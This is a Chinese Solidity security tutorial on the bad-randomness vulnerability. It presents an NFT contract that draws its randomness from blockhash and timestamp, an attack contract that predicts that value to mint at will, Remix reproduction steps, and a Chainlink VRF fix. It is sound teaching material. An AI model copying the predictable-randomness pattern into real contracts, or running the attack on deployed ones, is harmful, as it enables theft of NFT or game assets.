 ```yaml
---
title: S07. 坏随机数
tags:
  - solidity
  - security
  - random
---
```


# WTF Solidity 合约安全: S07. 坏随机数

我最近在重新学 Solidity，巩固一下细节，也写一个“WTF Solidity 合约安全”，供小白们使用（编程大佬可以另找教程），每周更新 1-3 讲。

推特：[@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

社区：[Discord](https://discord.gg/5akcruXrsk)｜[微信群](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[官网 wtf.academy](https://wtf.academy)

所有代码和教程开源在 github: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

---

这一讲，我们将介绍智能合约的坏随机数（Bad Randomness）漏洞和预防方法，这个漏洞经常在 NFT 和 GameFi 中出现，包括 Meebits，Loots，Wolf Game等。

## 伪随机数

很多以太坊上的应用都需要用到随机数，例如`NFT`随机抽取`tokenId`、抽盲盒、`gamefi`战斗中随机分胜负等等。但是由于以太坊上所有数据都是公开透明（`public`）且确定性（`deterministic`）的，它没有其他编程语言一样给开发者提供生成随机数的方法，例如`random()`。很多项目方不得不使用链上的伪随机数生成方法，例如 `blockhash()` 和 `keccak256()` 方法。

坏随机数漏洞：攻击者可以事先计算这些伪随机数的结果，从而达到他们想要的目的，例如铸造任何他们想要的稀有`NFT`而非随机抽取。更多的内容可以阅读 [WTF Solidity极简教程 第39讲：伪随机数](https://github.com/AmazingAng/WTF-Solidity/tree/main/39_Random)。

![](./img/S07-1.png)

## 坏随机数案例

下面我们学习一个有坏随机数漏洞的 NFT 合约： BadRandomness.sol。

```solidity
contract BadRandomness is ERC721 {
    uint256 totalSupply;

    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("", ""){}

    // 铸造函数：当输入的 luckyNumber 等于随机数时才能mint
    function luckyMint(uint256 luckyNumber) external {
        uint256 randomNumber = uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))) % 100; // get bad random number
        require(randomNumber == luckyNumber, "Better luck next time!");

        _mint(msg.sender, totalSupply); // mint
        totalSupply++;
    }
}
```

它有一个主要的铸造函数 `luckyMint()`，用户调用时输入一个 `0-99` 的数字，如果和链上生成的伪随机数 `randomNumber` 相等，即可铸造幸运 NFT。伪随机数使用 `blockhash` 和 `block.timestamp` 声称。这个漏洞在于用户可以完美预测生成的随机数并铸造NFT。

下面我们写个攻击合约 `Attack.sol`。

```solidity
contract Attack {
    function attackMint(BadRandomness nftAddr) external {
        // 提前计算随机数
        uint256 luckyNumber = uint256(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        ) % 100;
        // 利用 luckyNumber 攻击
        nftAddr.luckyMint(luckyNumber);
    }
}
```

攻击函数 `attackMint()`中的参数为 `BadRandomness`合约地址。在其中，我们计算了随机数 `luckyNumber`，然后将它作为参数输入到 `luckyMint()` 函数完成攻击。由于`attackMint()`和`luckyMint()`将在同一个区块中调用，`blockhash`和`block.timestamp`是相同的，利用他们生成的随机数也相同。

## `Remix` 复现

由于 Remix 自带的 Remix VM不支持 `blockhash`函数，因此你需要将合约部署到以太坊测试链上进行复现。

1. 部署 `BadRandomness` 合约。

2. 部署 `Attack` 合约。

3. 将 `BadRandomness` 合约地址作为参数传入到 `Attack` 合约的 `attackMint()` 函数并调用，完成攻击。

4. 调用 `BadRandomness` 合约的 `balanceOf` 查看`Attack` 合约NFT余额，确认攻击成功。

## 预防方法

我们通常使用预言机项目提供的链下随机数来预防这类漏洞，例如 Chainlink VRF。这类随机数从链下生成，然后上传到链上，从而保证随机数不可预测。更多介绍可以阅读 [WTF Solidity极简教程 第39讲：伪随机数](https://github.com/AmazingAng/WTF-Solidity/tree/main/39_Random)。

## 总结

这一讲我们介绍了坏随机数漏洞，并介绍了一个简单的预防方法：使用预言机项目提供的链下随机数。NFT 和 GameFi 项目方应避免使用链上伪随机数进行抽奖，以防被黑客利用。

